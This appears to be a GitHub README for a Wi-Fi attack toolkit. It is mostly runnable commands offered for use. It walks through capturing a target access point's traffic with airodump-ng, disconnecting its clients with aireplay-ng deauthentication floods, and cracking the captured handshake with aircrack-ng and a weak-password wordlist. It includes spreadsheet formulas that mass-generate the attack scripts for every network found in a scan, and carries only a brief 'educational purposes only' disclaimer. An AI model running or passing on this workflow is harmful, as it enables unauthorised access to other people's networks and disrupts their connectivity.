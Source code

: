 # Wi-Fi Toolkit

This repository contains a collection of shell scripts for performing various Wi-Fi related tasks.

## Requirements:

- Linux operating system
- airodump-ng and aireplay-ng tools (usually part of the aircrack-ng suite)
- Python 3

## Usage:

### Install
```bash
wget https://raw.githubusercontent.com/gznll/shell/main/wifi/{wifi_dump.sh,python_server.sh,death_wifi.sh}
```
### Check in
#### wlan0 status
```bash
iwconfig
```
#### Active wifi interface
```bash
iw dev
```
#### AP availeble list
```bash
iwlist wlan0 scanning | grep -i essid
```
### Get AP list
#### Kill services
```bash
airmon-ng check kill
```
#### wlan0 to monitor mode and get AP list in out-01.csv
```bash
airodump-ng wlan0 -w out
```
#### Basic commands
```bash
airodump-ng --bssid 11:22:33:44:55:66 --channel 2 wlan0 -w output
aireplay-ng --deauth 10 -a 11:22:33:44:55:66 wlan0 	
wpaclean out.cap in.cap
```
### Use in xls:

#### replace in text mode out-01.csv  [' ' > '' and ','>';']
#### Insert formula in Cell:

```sh
x	dump	death	clean
=VLOOKUP(A3,F:F,1,FALSE) 	=CONCATENATE("airodump-ng --bssid ",A3," "," --channel ",D3," "," wlan0 -w ",N3) 	=CONCATENATE("aireplay-ng --deauth 10 -a ",A3," ","wlan0") 	=CONCATENATE("watch -n 1 wpaclean clean_",N3,".cap ",N3,"-01.cap") 	=CONCATENATE("echo airodump-ng --bssid ",A3," --channel ",D3," wlan0 -w ",N3," > 1.sh && echo aireplay-ng --deauth 10 -a ",A3," wlan0 > 2.sh && echo watch -n 1 wpaclean clean_",N3,".cap ",N3,"-01.cap > 3.sh && chmod +x *.sh")
```
```sh
x	dump	death	clean	sh
=ВПР(A3;F:F;1;ЛОЖЬ) 	=СЦЕПИТЬ("airodump-ng --bssid ";A3;" ";" --channel ";D3;" ";" wlan0 -w ";N3) 	=СЦЕПИТЬ("aireplay-ng --deauth 10 -a ";A3;" ";"wlan0") 	=СЦЕПИТЬ("watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap")	=СЦЕПИТЬ("echo airodump-ng --bssid ";A3;" --channel ";D3;" wlan0 -w ";N3;" > 1.sh && echo aireplay-ng --deauth 10 -a ";A3;" wlan0 > 2.sh && echo watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap > 3.sh && chmod +x *.sh")

```

#### You get 1.sh,2.sh,3.sh files
	1 - run Dumping
	2 - run Deahth Attack 
	3 - Monitoring clean package, if get then attack OK

Find pwd
```sh	
aircrack-ng -l "outPwd.txt" -w 8weakpass.txt ./clean_18-13.cap
```

### Reset wifi adapter to managed mode
```bash
sudo ip link set wlan0 down && sudo iw dev wlan0 set type managed && sudo ip link set wlan0 up && systemctl start NetworkManager
```



# Optional functionalyty:

### Wi-Fi Dumping (wifi_dump.sh)

This script uses airodump-ng to capture Wi-Fi packets from a specific Access Point (AP).

#### Syntax:

```bash
./wifi_dump.sh MAC_ADDRESS CHANNEL [OUTPUT_FILE]
```
Arguments:
    MAC_ADDRESS: The MAC address of the target AP.
    CHANNEL: The channel the AP is operating on.
    OUTPUT_FILE: (Optional) The filename for the output capture file. Defaults to dump.cap.
    
```bash
./wifi_dump.sh 00:11:22:33:44:55 11 dump.cap
```
This will capture Wi-Fi packets from the AP with MAC address 00:11:22:33:44:55 on channel 11 and save them to dump.cap.

## Wi-Fi Deauth Attack (death_wifi.sh)
This script uses aireplay-ng to perform a deauthentication attack against a specific client connected to an AP.
#### Syntax:
```bash
./death_wifi.sh DEAUTH_COUNT MAC_ADDRESS [INTERFACE wlan0]
```
Arguments:
    DEAUTH_COUNT: The number of deauthentication packets to send.
    MAC_ADDRESS: The MAC address of the target client.
    INTERFACE: (Optional) The network interface to use. Defaults to wlan0.
```bash
./death_wifi.sh 10 00:11:22:33:44:55 wlan0
```
This will send 10 deauthentication packets to the client with MAC address 00:11:22:33:44:55 using the wlan0 interface.

Note: This script is intended for educational purposes only. Using it for malicious purposes is illegal and unethical.

## Python HTTP Server (python_server.sh)
This script starts a simple Python HTTP server on a specified port.
#### Syntax:
```bash
./python_server.sh [PORT 8000]
```
Arguments:

    PORT: (Optional) The port to listen on. Defaults to 8000.
```bash
./python_server.sh 8080
```
This will start the server on port 8080.

Note: Ensure that the current directory contains the files you want to serve.

## Disclaimer:

These scripts are provided "as is" without warranty of any kind. Use them at your own risk.

